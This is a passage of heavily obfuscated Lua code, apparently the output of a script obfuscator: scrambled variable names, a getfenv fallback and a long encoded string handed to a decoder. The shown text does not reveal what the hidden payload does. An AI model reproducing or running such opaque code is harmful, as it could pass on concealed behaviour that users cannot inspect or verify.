 if(n%s.HyWrUgge)<s.b_HyJaPY then n=(n-s.bGPlVShH)%s.diaixVBH return e(u(e,e)and e(e,e),e(e,e))else return e end return e end)return n;end)())local de=(getfenv)or(function()return _ENV end);local r=s.CpaHCxnC or s.QXxVAHgC;local t=s.UabWlOMD;local m=s.fDaJjQVw;local f=s.zTrwUEzZ;local d=s.TZcuwZCG;local function ne(b,...)local o=l(e,"Iu!JiOM{Q%+XK#w<K<Ki!MQQwXOO+wuN{!!Q%XuDMw%<!#QK<uOMi{X!S+MKKw{!y{MQK+!{QQKOiK+MuuLOMXKQ!+QKi!K!uJ{Q#X#%iO%K<wM&-wQ#<%OKM+<K{+#uiX%%9Q<%MiXKuwQC!i+O^%{J#uJw%#oOM&XQX{!u{+#KJwwwM{#Xu+%{<uOJX+uOuJQi#MJQ%+iwX<!JQ{+iM!MQ<u{wK<iJ+Of_O{KMuwu#Q!wbi!+iOJK%JJ%+Q<<+O!XiuMKMJ<XJw%MO#X!MQ<<Miwi##Mur{!#i{{Z#MwKX#w{!wJi{+XKQJ!X<JJ+iX!i#KO!#QK%K!%+OuXMMK<JMQw+KO{XM#!Q#wOi#O+<JO<KwJMi#Q{<ii++KFwX!Jw+%<XuQ%#!w%{<JOM+Ou!fXM+KK!w%d<!%iJOOQ{XwOJw+bs!+{JQQ#wXM3XJ<K{X#M#{iJ%+<KOwEJQww#i%XJK+M?##<WQMwi<{M!X+uK{wJiXi2OM+K#w+{%<JOwK{XOu+{Q#+JKwJM{K%J{!%QQw+iK+wur{!?Q{M%%:uOKXw!dKOOM+XsK{JwfiuJu%M<iOMXQMK##iu+O+J8#MMKQ!+#+OJK{(OQ1#<JK%<Pw<<M{K!!iQMJ1Xw!q{wX{J{+Q%{sJO+XKuw#!i{+QKMiX#KiO+u_iOJKHX{!{{+#KJwwiMX#{!{Q+<MOuMwsiQi#OJ++uDQMJO<#u!!QiwM%iuJ{J#Mii+_<#MiX<#+O<<qO%XOuQM{#iKXJ!Qw<FO!<KQOwK!O+uu{3uM<Ki!MQQJ#Xuu+{O#OiQOMwQMMX#J{QO<iwOi++Q9+MKuJ%wz{MuO{X#u+{K#wQiu{MQKX({!X%MwwO8X!QewOJ%%w}<{!#!!X%!w#w%OQ+Ktw{z!L%%q#JXK%!QQ#<!J!+#b%{JK<Jw!<%w<!OiXMO#wQJ#+6?KM{Qiu+%+wXOCX{uw{%{OwiJQ%+<K%<JO%M<JzM%Xu+M##X<B{O<KO{KKXXJO{wwbi!<u{O#{JQ{<<JOJXu-{Q+w+iJ++mO{J++!#Q+wKi<X+w<QiwMiMJ{+u<+OKXwM+<{OuXM<Q{%wJJJ+!%J<wOMXQu+K%J<+{t<MOQM3X%JvGM{OuX#ui{M#QQQSu{O+iJi%J<MiKX%!J{K{uwMJi%M<QXu!O%!wQm!%!uO!QXOJu+{<!OXK!u+JQKJi++i:<LJ{)KM!QQ+J<XKu<Q%%iu%++uJM<#!!uQwQOw{iQ++0KKM#uJQ%i<MOQcQQu<OJi+JDMF{QuK+!KQwJuK{!QQO%Q!!+X_w{JQ!;+Q{<+O{MK#MOK#JJXOMw+MJK<!%i%QJwwiM+Q2+KzJ#%{<%M9XXyuQQw!i#iu++tiMMKQ{w<wi<Xiu{Ji%%v+JX+{<wM.K!MXwXOKQ#ui{{#KJM+M<XMMOXK{uwQbw!%{b%{vK<J%%J#JMuKH!OQ+{XwMJw+3H!X!!X%<##OuXu!i{XwJiiJ%+4<KOwKoM+w%i{+KF<{wM<t{J!%i<M+K!!QO<u C+Qv#{!K#w++Jw<MJ{!!iQQw{iw+u0u{iK{!QiM<<OJKBuMJ^X<iJ+OeMi#Ku!uiS#Qu{MMt+QJQKui%O<MO%KQu%QM%<u{{%#XJ#M{K#!+QKwwKiuJ{Mw!J#JX+u<wMfK!{Qwwi#X{uus<{K#!Ji%Mi+XXu<QJ+aOwMi<JM%#uJ%Q<%ue%OiXMuQX<iQ+JTJ{M#MJOiQ#MOuXOuOQ(#Qi%OQ##Mw#{JJ%MwOO!i%XQpKMw#^Qi<%OKK+u<Q<wMA %!uHM{wu!<%wQ<<JO!XiuMKQiM+w%<oKM!Ki!MK#OMXuuX{OwCiQ{%3{MMKXJk!uQQwiiM+Qi##XJ+%<Gi!{O{X#u+{K#wX rJM##QJX!X%XwwO4X!MQ#Xii%<vKM##!JMii#MOi+X!O{Jw!#JJO%M<QO+uMu<Q{w!ii+MOJK<iO{u<<OMX%X{!i{+#KJwwJ{u#iJ<iQKwOOKuuJQuwMJ+J%+Q<KOwKaMO<JOMKuK+MO##iO+MT%OQX##+iw{<wui!+iFM+XKXJ{Qw<xO!<<{X<uJK+OoKMiXM!%%w<KwXOO+wuD{!uQ%{.+MOXn!MQOw<i%i{Xi:+MKKw{ug{MQKO#QMKwuiG+%ui{QKwK%JXQKwwO:<JQ%w+i{O+##MuKJ!{%i<+PQ%wuwM<#iJ{JO+!<QO+XKO<<OOMXJKMOi#%JX%wX iMKiX{!6{+#KJw<iM{#L!X%Q<%OwK!XuiO{i#MJQ##MXKX!OQiwOi%XJK+O<#ui!%X4iM+{QkMQuwOiOX}?Q{%QQu%%!+wiJK!u%{X#K<+XQXwO(#u!XiM#(O<+wKwOwwu<i{%<%MK#x!J!u%!wiiM+Qi##wJJ%i<XMQ{MwQi#++OuMJ#QJM%K<Q!#QKwwOoX!ui{M!u{+%#iMM1K!!iwwOKXwuKQu++:uMJgQO%#uw+QOw%OM+KuXM+#<J<%JS!OOKJ!iQK#<i+X!KwMO#JJJO{e!JiXJ!cQM#{NOQJ<X{!K#w#{{K#uJ%iuJMwwHJu+i7#!OKOuXQOwKp<XOuJ{X#+!#%uXKOKK{uOu{Qu#+JK%wi+#u!#%i+QJK+#uu{O{JwOJM%Q<+%#JJ%i<u(iQ%/%{QK<JJ%KX!iQKQu%{wwu#<i%+!NiMMuX%Q<XMO{;<O{#w+OuJX+#<wM,K!{#<OO#Xw!u{-#O<!MwXMi+X<u#Q+w%OMX#+{u-M+KK!w#uM{KQ!OJQ#uiO+K+uuJMiKM!QKXMuK!u<J!X{iO+i^MMuKuJii!KXiXXOu#/#{{#sJ!%iJXX<!uQ<%w!#+{u!{XMXK+!KQw<xO!%iQOXQ##JK%wFAM!Ki!MQQw+i#X%uC{!#iQu<#{JXw!{QwwM!#Xi,w{%M##JJZ%!<i+%!Q{X<JiKiuK{UiMMKQMXBuM!X<#!OKwOiQ+#XKiiKuJi%u+MJX+Xu!{J%j<+QX<{M+KJ!+QO+h!w+OH#!QXKJO+u<XuXOOX{uQ{+#KQ<+uUXMiKM!Qwui#X+uXMOwiJX%#<w<#M#K8!!Qi!<XMux{uwaJw+uXiJ%K+JJQ<<!iu+w+Ol<MQK+!K#KOOK%<MQXwKiw+XfKhuMMKi!MQQ!#XXuwQ%{J#XJM%Q<+K!JhQ<w<JMQ#w+PX{XKwJL%!i0XXu<{<w+i!XJK!iKK<!<%!_Ji<K%XJu+{M#QJ+fOMK#J!{%M<+w%O{+Krw{hJu%K=KM{+#5w{uw{!i%Kw%{{XOK#JX%g<!Oi1Q{%##iuOwuK!!+Q!X%Xw<OwK!Xuu%{i#MJQw+MQX<J%Q{<MO%i%Xw*KMw#3QO1iO{KO#+O<wMiuXMKiJOQQuw%ww<OiX{#iMJ###Xi%%w3)M!cO%X<KO%MKhO{%wF<iQQ<%O#KuX<!uQ!wiiM<wCX{XKwJW%!J{K!!u{#w{<w%iuu!iX%!#%M<uOuKiXJu#{M#QJ+##{J#iJuiiKKi%XKu%_<QO#!Ji%MJ%K<J0Q#+g!+XJuM{XQ+u!Q</!O<{iSXQMw#J#+ikOZJMQKM!QQ+OJ+<u#{{{Ow%JQ%+<K++!OQ%w%Oi+Ku#!KXMJ%%%<KM#X%JJJKKJi{+%+OuiMQK+!K#wMOKi!iQ!##<+{<us{%#OJQQ{<iwXOM+wuF{!uX%XCKi#KuJU%MwXi{+X+%uMMKKwJH#wOOKKu%J+X<OEX%uO{QK{Ji!X%!wwOpX!Miw!J%XJ?u{zMuKM!iQMwQ%Q_#{X#O#!K#%{<QO+XKOiQdw!ii+{RQM+KKiAJ<<!OiXMJ%{+#KJwX!QXMiKM!QwQwKiwX(JQJu#MJQ%+m!OwKu!!XiwMiKKucKMw#lJQ%i<{OQX+##{wwci!+OUMMQK+!Ku+<YO!XiuM{Q#<JKX5Q%M!KO!MKPw+iK+wJ,#Q#iJ{%Q<XOKu%!:%iwMiM++V+XwKwJG%!/MMVXQu#{K!<iP+!Ci{QKX!+%4ww+uX!ui{M#QOO%K<<MZKM!iQQwQO+KO}w{G#!Mu%M<%O+Kw!#QRwJii#wmQM+KKiw<M<!OOXMu%{+J{JwX!uMMiKQ!Q#KwKiwXF!iQQ#MJX%+iwOwKm!!%M<hiQ+wUKK^#jJ!%i<MM{X+u#{wwii!+MnM{Qw!!KQw<SO{Xiu{{QwKOi%w,uM!<K!MQQw+MKuiu7{J#iJ{%QOOOK#1!%Q!wMiM<+S+MKKwi!%+<iO%XQMK{K#wixXi!HMMKK!+#wwwO3X!ui%J#QJX%Kx!M6Ki!i%MNui++KHw%<#!JO%M^+MOXKu<QAu+ii+MNQQ+J!!w%u<!OOXM{J{+wwiM+= iMiu{!QQ+wKMZKTu!{{#MQ%%+<KOw#!!+Qiw+iQ<XyKMw#ZJ!+Z<MO%X+!A{ww!i!XiuiMQK+!KQ<<GOJXi!Q{##+J#%wJQM!Ki!M+QO4iK+<uf{J#i%u%Q KM%Xw!!Q!<OiM+Q&+{w#MJ&%O<iM{XQu+{K<7ii+! QMM#%!+QKwwO_XXui{{#QJw%K/7Mh#!!QQMwQi+wJ0w{u#!iM+X<QOXXKJXQHw!iiXQKiM+Kw!w<{<!OiXMJQQ##KiL+qgiMi#X!Q%K<+iwXiu!X##MJQ%+<KM:KD!iQiw+iQ++ZKMw#wJ!%O<MOQX+uw{wwLOK+ie{MQKX!K%0<B{!KuuM{+#+J#%w/#M!#Mw+QQw#iK<iu*{!#iiQ+F<+MgXwMuQ!wiiM+QJuMK#-Jl%M<iOQXQJ+Qi#wiJ+!5MMM<?!+%w<;OhX{ui{w#QJ+%K<wMuK!!{QMw#i++wRw%:#OJi%+<QO#XKiKQd<iMu+McwM+#i!w%/<!OiX#uQ{w#Kii+kjiMiwMJ%Q+<uiwXiu!{+#Mi+Ow<KMOK7Q{QiwMiQXKu!Mw#QJ!Xw<MOQX+uw+%w;iX+i!&MQK+!KQwX{O!X%uMQu#+J#%w!AMMKi!XQQwwiKXiuaQiwQJM%<<+%wXw!NQ!<MO%+Qu!MK<QJl%!<iOQwJu+QO#wiQ+!ciMMKQ<uQK<JOTXXui{{#QO+%#<wMOK!!QQMwwi+Xw!y{p#%JiwO<QO+XKJ2%#w!iK+MJ!M+KK!w%!u#OiX<uQQ+#KJw+05!!XKM!#Q+<OiwXuu!%iw#JQ%<<KM!Kb!QQi<QO<++uJMw<%J!%i<MM+#JuKQMw3+Q+iHMMQKKO{Qw<%O!KXuM{Q#+JKMOt*M{Ki!<QQwXiKKwuK{!#%JM%K<+M!XwJ!QKwii#+QO<MKKwJe+i<KOMK/u++M#wi8+!RM%uKQJJQKNsOfX!ui{M{+J++u<wM%K!!OQMVQO#+KuJ{6#OJiKi<QMKKiuwQ{w!{w+MFQM+KKiQ%(<{OiX#uQ{K#KJw+Q}!M+KM!QQ+wKiwK!!K{i#KJQ#e<KOwKzJiQXwMiw++iOMw#xJ!+MW%OQKuuKwOwti!+i!MQJK+JJQw<{O!uwuMQ+<uJK+{y4K!Ki!MQQw+{w+wu{{!##JM%+<+{KOi!nQ%wii#+QJMMKKw+!%!<XOMKeu+{K#wizi<*iMKKQ!+QK<MOsXM!X{M#QJ+2J<wMuK!JM)<wQOO+KJ<{B#!JiXMOJO+K{uwQXw!+u+Mu+<JKKJ+%:!QOiXMuQ%+J{Jw+#y!MwKM%OQ+wK<{X5u#{iwJJQ%X